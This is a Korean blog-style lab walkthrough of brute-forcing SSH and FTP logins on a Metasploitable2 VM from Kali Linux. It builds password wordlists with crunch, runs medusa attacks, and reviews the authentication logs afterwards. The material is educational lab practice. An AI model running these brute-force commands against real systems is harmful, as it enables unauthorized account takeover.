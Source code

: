 ```yaml
---
title:  "Medusa, Crunch 활용 Brute Force 공격 in Kali Linux"
excerpt: ""

categories: security
tags:
  - [csrf, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```

#### Metasploitable2 설정
* * *
```bash
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

![picture 1](/assets/images/20220517-011724.png){: .center} 

##### Dictionary 수정
* * *
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```

##### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

![picture 2](/assets/images/20220517-012128.png){: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
![picture 3](/assets/images/20220517-013532.png){: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
![picture 4](/assets/images/20220517-014036.png){: .center}

![picture 7](/assets/images/20220517-014206.png){: .center}  

![picture 5](/assets/images/20220517-014142.png){: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

![picture 8](/assets/images/20220517-015612.png){: .center}

![picture 9](/assets/images/20220517-015648.png){: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

![picture 10](/assets/images/20220517-020107.png){: .center}

![picture 11](/assets/images/20220517-020130.png){: .center}


##### Medusa + Crunch 로 Brute Force 공격 해보기
* * *
**Metasploitable 에서 계정 추가**

```bash
$ metasploitable : sudo adduser gidle
# password : Sk#4
# 로그 실시간 확인
$ metasploitable : tail -f /var/log/auth.log
```

![picture 12](/assets/images/20220517-021336.png){: .center}

**Kali 에서 crunch로 딕셔너리 생성**

```bash
$ kali@kali : sudo crunch 4 4 -t ,@^% -o pw5.txt
$ kali@kali : less pw5.txt
```

![picture 14](/assets/images/20220517-021536.png){: .center}


![picture 13](/assets/images/20220517-021512.png){: .center}

**Kali 에서 medusa 로 brute force 공격 시작**

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh
# -t : 쓰레드 추가 -> 속도 up!
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh -t 16
```

![picture 15](/assets/images/20220517-021802.png){: .center}
#### Log 분석하기
* * *
```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ sudo cp /var/log/auth.log /var/www
$ sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ sudo wget 192.168.5.128/auth.log
$ cat auth.log | awk '{print $12,$13,$14,$15}' | sort | uniq -c
$ cat auth.log | awk '{print $5}' | awk -F"[" '{print $1}' | sort | uniq -c | sort -rn
```

![picture 16](/assets/images/20220517-031446.png){: .center}

**ftp 로그 확인**

```bash
$ kali : sudo medusa -h 192.168.5.130 -u gidle -P pw5.txt -M ftp -t 16
```

```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ msfadmin : sudo cp /var/log/auth.log /var/www
$ msfadmin : sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ kali : sudo wget 192.168.5.128/vsftp.log
```

![picture 17](/assets/images/20220517-031911.png){: .center}  

```bash
# log 분석 uniq -c : 중복제거 + 개수, sort -rn -> r : 내림차순(revers), n : 수를 기준으로 정렬
$ kali : cat vsftpd.log | awk '{print $8, $12}' | sort | uniq -c | sort -rn
```

![picture 18](/assets/images/20220517-032332.png){: .center}  


**파일 가져오지 않고, Kali에서 Meta2로 SSH 접속 후 로그 확인**

```bash
$ kali : sudo ssh 192.168.5.130 -l msfadmin
```

![picture 19](/assets/images/20220517-033120.png){: .center}